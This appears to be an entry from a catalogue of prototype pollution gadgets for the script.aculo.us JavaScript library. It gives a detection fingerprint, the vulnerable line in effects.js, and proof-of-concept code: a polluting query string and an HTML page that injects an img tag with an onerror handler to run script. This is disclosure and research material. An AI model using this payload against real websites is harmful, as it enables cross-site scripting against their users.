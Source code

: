 ## script.aculo.us

URL: https://github.com/madrobby/scriptaculous

### JS Fingerprint
```
(typeof Scriptaculous !== 'undefined')
```

### Vulnerable code fragment
https://github.com/madrobby/scriptaculous/blob/b0a8422f7f6f2e2e17f0d5ddfef1d9a6f5428472/src/effects.js#L1046
```js
String.__parseStyleElement = document.createElement('div');
```

### PoC

```
?x=x&x[constructor][__parseStyleElement][innerHTML]=<img/src/onerror%3dalert(1)>
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/scriptaculous/1.9.0/scriptaculous.js"></script>
<script>
	String.__parseStyleElement.innerHTML = "<img/src/onerror=alert(1)>"
</script>
```